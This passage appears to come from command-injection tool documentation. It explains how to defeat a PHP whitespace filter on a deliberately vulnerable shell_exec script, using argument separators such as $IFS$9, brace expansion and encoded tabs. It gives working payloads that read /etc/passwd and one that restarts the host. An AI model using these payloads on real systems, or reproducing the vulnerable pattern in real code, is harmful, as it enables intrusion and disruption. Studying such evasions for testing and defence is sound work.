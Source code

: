#### Argument separators trickery
Let's consider the following example:
```
    <?php
    if(isset($_POST['dir'])&&!preg_match('/\s+/',$_POST['dir']))
    {
    	echo "Dir contents are:\n<br />".shell_exec("ls {$_POST['dir']}");
    }
    ?>
```

The script executes the OS command only if the user-supplied variable does not contain any white characters (like spaces or tabs). This is why payloads like:
`cat /etc/passwd`
`;cat /etc/passwd;`
`';cat /etc/passwd;'`

lead to false negatives.

In order to execute an arbitrary command, we need an alternative expression to separate the command from its argument (we need an alternative ARGUMENT_SEPARATOR). 

A way to achieve this is an expression like `$IFS$9`, so the alternative payloads would be:
`cat$IFS$9/etc/passwd`
`;cat$IFS$9/etc/passwd;`
`';cat$IFS$9/etc/passwd;'`

In the unix environment, the `$IFS` environmental variable contains the current argument separator value (which is space by default).
Special caution needs to be taken when injecting `$IFS` as the argument separator. It is critical to make sure that the OS shell will be able to understand where does the variable name end and therefore where does the actual argument start. `ping$IFSlocalhost` will NOT work, because the shell will try to extrapolate a variable called `$IFSlocalhost` - which is obviously not defined. To deal with this, we can insert additional `$9`, which is just a holder of the ninth argument of the current system shell process (which is always an empty string). 
Interestingly, the same principle does not seem to apply to commands like `init$IFS$96` (init 6 -> restart). The command works fine and the shell is not trying to insert variable $96. Instead, it recognizes the presence of `$9`, evaluates it to an empty string and therefore treats the following `6` as an argument.
A way to avoid this confusion is to use the `${IFS}` bracketed expression - just keep in mind this involves the use of two more characters that are likely to be filtered (`{` and `}`).


Below is the list of currently known and supported argument separators.

On nix:
- `%20` - space
- `%09` - horizontal tab
- `$IFS$9` - IFS terminated with 9th (empty) argument holder
- `{OS_COMMAND,ARGUMENT}` - the brace expression (works under bash, does not under dash)

More platform-specific tricks, like IFS override `;IFS=,;cat,/etc/passwd` or char escaping `X=$'cat\x20/etc/passwd'&&$X` will soon be supported as well.


On win:
- `%20` - space
- `%09` - horizontal tab
- `%0b` - vertical tab
- `%25ProgramFiles:~10,1%25` - a hacky cmd expression cutting out a space from the default setting of the %ProgramFiles% environmental variable (`C:\Program Files`)
